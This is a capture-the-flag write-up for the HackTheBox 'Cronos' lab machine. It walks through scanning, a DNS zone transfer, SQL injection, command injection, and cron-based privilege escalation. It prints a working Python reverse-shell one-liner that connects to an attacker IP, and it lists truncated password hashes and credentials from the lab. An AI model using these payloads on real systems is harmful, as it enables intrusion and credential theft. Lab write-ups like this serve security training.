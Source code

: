 [HackTheBox] CronOS
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: oscp, hackthebox, writeups

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_cronos/infocard.png)

This is a writeup for HTB VM [Cronos](https://www.hackthebox.eu/home/machines/profile/11). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_cronos/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 14:08:01 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/xml/_quick_tcp_nmap.xml 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up, received user-set (0.084s latency).
Scanned at 2019-11-13 14:08:02 PST for 23s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 14:08:25 2019 -- 1 IP address (1 host up) scanned in 24.49 seconds
```

2\. We start with DNS enumeration and with a reverse lookup and find that the subdomain `ns1.cronos.htb` is associated with the target IP. Since DNS is responding on TCP, we also perform a DNS zone transfer and find additional subdomains associated with the target IP:  
```
dig +noall +answer -x 10.10.10.13 @10.10.10.13
host -t axfr cronos.htb 10.10.10.13
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_cronos/screenshot01.png)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_cronos/screenshot02.png)  

3\. Upon visiting the `admin.cronos.htb` subdomain, we are presented with a login page, that is vulnerable to SQL injection:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_cronos/screenshot03.png)  

### Findings
#### Open Ports:
```
22/tcp  |  ssh     |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp  |  domain  |  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  |  http    |  Apache httpd 2.4.18 ((Ubuntu))
```

## Phase #2: Exploitation
1\. We use SQLi to successfully bypass login and are presented with a page that allows running the `ping` and `traceroute` commands. The input field on this page is vulnerable to a command injection:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_cronos/screenshot04.png)  

2\. We use this to execute a Python reverse shell and get interactive access on the target system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_cronos/screenshot05.png)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_cronos/screenshot06.png)  

3\. We obtain the first flag since the file is readable by current user `www-data`:  

![writeup.exploitation.steps.3.1](/static/files/posts_htb_cronos/screenshot07.png)  

## Phase #2.5: Post Exploitation
```
www-data@cronos> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos>  
www-data@cronos> uname
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos>  
www-data@cronos> ifconfig
ens160  Link encap:Ethernet  HWaddr 00:50:56:b9:26:e7
        inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
        inet6 addr: dead:beef::250:56ff:feb9:26e7/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:26e7/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:1008552 errors:0 dropped:0 overruns:0 frame:0
        TX packets:687541 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000
        RX bytes:157239763 (157.2 MB)  TX bytes:224790718 (224.7 MB)
www-data@cronos>  
www-data@cronos> users
root
noulis
```

## Phase #3: Privilege Escalation
1\. While enumerating, we find hardcoded MySQL credentials for user `admin` within the `/var/www/admin/config.php` file. We use these credentials to connect to MySQL service and obtain password hash for user `admin`. We were unable to crack this hash:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_cronos/screenshot08.png)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_cronos/screenshot09.png)  

2\. Upon further enumeration, we find that there's a cronjob that run a PHP file every minute with `root` privileges. Luckily for us, the PHP file it runs is owned by current user `www-data`:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_cronos/screenshot10.png)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_cronos/screenshot11.png)  

3\. We can replace this file with a PHP reverse shell and catch the incoming shell to obtain elevated privileges:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_cronos/screenshot12.png)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_cronos/screenshot13.png)  

4\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.4.1](/static/files/posts_htb_cronos/screenshot14.png)  

## Loot
### Hashes
```
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5........................
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVU........................
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHS........................
```
### Credentials
```
mysql: admin/kEjdbRigfBHURE.....
```
### Flags
```
/home/noulis/user.txt: 51d236438b333970dbba7...........
/root/root.txt: 1703b8a3c9a8dde879942c..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/11>  
* <https://www.youtube.com/watch?v=CYeVUmOar3I>  
* <https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726>  
